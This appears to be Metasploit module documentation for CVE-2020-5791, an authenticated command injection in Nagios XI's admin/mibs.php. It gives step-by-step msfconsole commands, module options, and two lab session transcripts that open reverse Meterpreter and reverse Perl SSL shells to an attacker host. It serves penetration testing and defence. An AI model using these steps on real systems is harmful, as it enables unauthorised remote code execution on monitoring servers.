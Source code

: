 ## Vulnerable Application
This module exploits an OS command injection vulnerability (CVE-2020-5791) in `admin/mibs.php` that enables
an authenticated user with admin privileges to achieve remote code execution as the `apache` user.

The module's `check` method takes advantage of the `Msf::Exploit::Remote::HTTP::NagiosXi` mixin in order to authenticate to the target and
obtain the Nagios XI version number, which is then used to check if the target is version 5.6.0-5.7.3 and therefore vulnerable.

Next, the module executes the payload via an HTTP GET request to `admin/mibs.php`.
For this request, the value of the GET parameter `file` is set to the payload.
The module supports `linux/x64` and `linux/x86` payloads (target 0) as well as `cmd/unix` payloads (target 1),
However, the only reliable `cmd/unix` payloads against a typical Nagios XI host (CentOS 7 minimal) seem to be
`cmd/unix/reverse_perl_ssl` and `cmd/unix/reverse_openssl`.

Valid credentials for a Nagios XI admin user are required.
This module has been successfully tested against Nagios XI 5.7.3 running on CentOS 7.

Vulnerable software for testing is vavailable [here](https://assets.nagios.com/downloads/nagiosxi/versions.php).
Detailed installation instructions are available
[here](https://assets.nagios.com/downloads/nagiosxi/docs/Installing-Nagios-XI-Manually-on-Linux.pdf)
and an official video tutorial is available [here](https://www.youtube.com/watch?v=fBWA6t6dJ4I).

## Verification Steps
1. Start msfconsole
2. Do: `use exploit/linux/http/nagios_xi_mibs_authenticated_rce`
3. Do: `set RHOSTS [IP]`
4. Do: `set USERNAME [username for the Nagios XI account]`
5. Do: `set PASSWORD [password for the Nagios XI account]`
6. Do: `set target [target]`
7. Do: `set payload [payload]`
8. Do: `set LHOST [IP]`
9. Do: `exploit`

## Options
### FINISH_INSTALL
If this is set to `true`, the module will try to finish installing Nagios XI on targets where the installation has not been completed.
This includes signing the license agreement. The default value is `false`.
### PASSWORD
The password for the Nagios XI account to authenticate with.
### TARGETURI
The base path to Nagios XI. The default value is `/nagiosxi/`.
### USERNAME
The username for the Nagios XI account to authenticate with. The default value is `nagiosadmin`.

## Targets
```
Id  Name
--  ----
0   Linux
1   CMD
```

## Scenarios
### Nagios XI 5.7.3 running on CentOS 7 - Linux target
```
msf6 > use exploit/linux/http/nagios_xi_mibs_authenticated_rce 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (linux/x86/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Linux


msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse TCP handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Sending stage (980808 bytes) to 192.168.1.16
[*] Command Stager progress - 100.00% done (773/773 bytes)
[*] Meterpreter session 1 opened (192.168.1.12:4444 -> 192.168.1.16:55158) at 2021-04-01 13:18:20 -0400

meterpreter > getuid
Server username: apache @ localhost.localdomain (uid=48, gid=48, euid=48, egid=48)
```
### Nagios XI 5.7.3 running on CentOS 7 - CMD target
```
msf6 > use exploit/linux/http/nagios_xi_mibs_authenticated_rce 
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set rhosts 192.168.1.16
rhosts => 192.168.1.16
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set lhost 192.168.1.12
lhost => 192.168.1.12
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set password nagiosadmin
password => nagiosadmin
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > set target 1
target => 1
msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > show options 

Module options (exploit/linux/http/nagios_xi_mibs_authenticated_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   FINISH_INSTALL  false            no        If the Nagios XI installation has not been completed, try to do so
                                              . This includes signing the license agreement.
   PASSWORD        nagiosadmin      yes       Password to authenticate with
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          192.168.1.16     yes       The target host(s), range CIDR identifier, or hosts file with synt
                                              ax 'file:<path>'
   RPORT           80               yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an
                                              address on the local machine or 0.0.0.0 to listen on all addresses
                                              .
   SRVPORT         8080             yes       The local port to listen on.
   SSL             false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /nagiosxi/       yes       The base path to the Nagios XI application
   URIPATH                          no        The URI to use for this exploit (default is random)
   USERNAME        nagiosadmin      yes       Username to authenticate with
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl_ssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.12     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   CMD


msf6 exploit(linux/http/nagios_xi_mibs_authenticated_rce) > run

[*] Started reverse SSL handler on 192.168.1.12:4444 
[*] Executing automatic check (disable AutoCheck to override)
[*] Attempting to authenticate to Nagios XI...
[+] Successfully authenticated to Nagios XI
[*] Target is Nagios XI with version 5.7.3
[+] The target appears to be vulnerable.
[*] Executing the payload
[*] Command shell session 2 opened (192.168.1.12:4444 -> 192.168.1.16:55162) at 2021-04-01 13:18:31 -0400

id
uid=48(apache) gid=48(apache) groups=48(apache),1000(nagios),1001(nagcmd)
```

